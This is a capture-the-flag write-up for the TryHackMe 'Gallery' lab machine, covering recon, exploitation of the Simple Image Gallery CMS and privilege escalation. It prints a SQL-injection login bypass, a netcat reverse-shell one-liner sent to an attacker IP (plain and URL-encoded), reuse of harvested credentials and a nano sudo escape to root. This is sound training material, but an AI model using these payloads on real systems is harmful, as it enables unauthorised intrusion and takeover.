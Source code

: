 ```yaml
---
title: Gallery
date: 2022-02-20
categories: [TryHackMe, Medium]
tags: [cms, exploit-db, linux]     # TAG names should always be lowercase
---
```


Official room [link](https://tryhackme.com/room/gallery666)

We first make a variable to hold our assign ip `export ip=10.10.62.114`

### Nmap result `nmap -sC -sV $ip`

```
Starting Nmap 7.60 ( https://nmap.org ) at 2022-02-13 10:30 GMT
Nmap scan report for ip-10-10-62-114.eu-west-1.compute.internal (10.10.62.114)
Host is up (0.0012s latency).
Not shown: 998 closed ports
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
8080/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
|_http-open-proxy: Proxy might be redirecting requests
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Simple Image Gallery System
MAC Address: 02:45:AE:62:86:6F (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.91 seconds

```

### gobuster dir -u http://$ip -w usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.62.114
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2022/02/13 10:40:32 Starting gobuster
===============================================================
/gallery (Status: 301)
/server-status (Status: 403)
===============================================================
2022/02/13 10:40:56 Finished
==============================================================
```

### gobuster dir -u http://10.10.62.114/gallery -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.62.114/gallery
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2022/02/13 10:42:07 Starting gobuster
==========================================/images
/report (Status: 301)
/albums (Status: 301)
/plugins (Status: 301)
/database (Status: 301)
/classes (Status: 301)
/dist (Status: 301)
/inc (Status: 301)
/build (Status: 301)
/schedules (Status: 301)
===============================================================
2022/02/13 10:42:30 Finished
===============================================================

```

> ## Q1. How many ports are open?

- from our nmap result we can see there's 2 ports open, port 80, 8080

> ## Q2. Whats the name of the CMS?

- Also from the nmap scan we can see its Simple Image gallery

> ## Q3. What's the hash password of the admin user?

The flag `a228b12--------------914531c`

- This is a bit confusing, so i decided to dig abit on the CMS and see if
  there's any know vuln effecting to. At first i run the command
  `searchsploit simple image gallery` but unfortunently the result i got wasn't
  what I'm expecting. Seeing this make me think about our old friend google. I
  search it up and got [this](https://www.exploit-db.com/exploits/50214) from
  exploit-db. After you run the exploit it ask for target: i supply
  http://$ip/gallery. Boom it works like a charm, Now i have RCE on the server.
  I logged in to the cms with the payload `admin' or '1'='1'#` as username pass:
  null. then i navigate to /uploads where i found the file created by the
  exploit. i apply the payload and now i got a shell.

### php payload on the victim side

```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <attacker-ip> 4242 >/tmp/f
```

The above wasn't working and i dont know, i search it up a bit and i figure out
i need to url encode it. Here is the working one

### php payload on victim side working one

```php
rm%20-f%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.10.58.106%204444%20%3E%2Ftmp%2Ff
```

### attacker machine

`nc -nvlp 4444` <br> <br>

### stabilizing the shell

Now i can use ctrl + any character (You will see why this is important in a
minute)

```bash
victim: python3 -c 'import pty;pty.spawn("/bin/bash")'
victim: Ctrl + Z
attacker: stty raw -echo; fg
victim: export TERM=xterm
```

Navigating to /home we can see 2 users 1. Ubuntu 2. Mike, we cd into mike but we
cant read user.txt. so i navigate to /dev/shm and pull linpeas.sh and run it.
After linpeas.sh finished i saw an interesting history for the user mike
`sudo -lb3stpassw0rdbr0xx`, that was kinda funny haha, so i just do `su mike`
with the password: b3stpassw0rdbr0xx. now i can read the user.txt

> ## Q4. Whats the user flag?

`THM{af05cd............d546ef}`

Also looking at linpeas out put i saw the default db connection password for the
gallery in the initialize.php located at /var/www/html/gallery.

Conneting to mysql `mysql -u gallery_user -p` password: pass....321 give the
databse where i retrieve the flag 3. the admin hash password

```sql
show databases;
use gallery_db;
show tables;
select * from users;
```

> ## Q5. Whats the root flag

There's no hint for this, so i use run `sudo -l` as mike.

```bash
User mike may run the following commands on gallery:
    (root) NOPASSWD: /bin/bash /opt/rootkit.sh

```

Now its time to inspect /opt/rootkit.sh

cat /opt/rootkit.sh

```bash
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac

```

So rootkit.sh is script simingly doing some sorta system update and stuff.
Looking at the read options i see we're calling /bin/nano /root/report.txt as
root. This grabs my attention pretty quick, as i know nano doesn't drop the
priv. So search it in gtfobins (who remember the commands anyways). running the
script as: `sudo /bin/bash /opt/rootkit.sh` give us options to choose, in the
beginning i know I'm only interested in the read read option. So i just enter
read. Now i have nano open with the report.txt. we can elevate our prive using
the below commands in nano.

### priv esc

```bash
^R ^X
reset; bash 1>&0 2>&0
```

Flag: `THM{ba87e0df..............bafde87}`

Thanks for reading hope this helps.
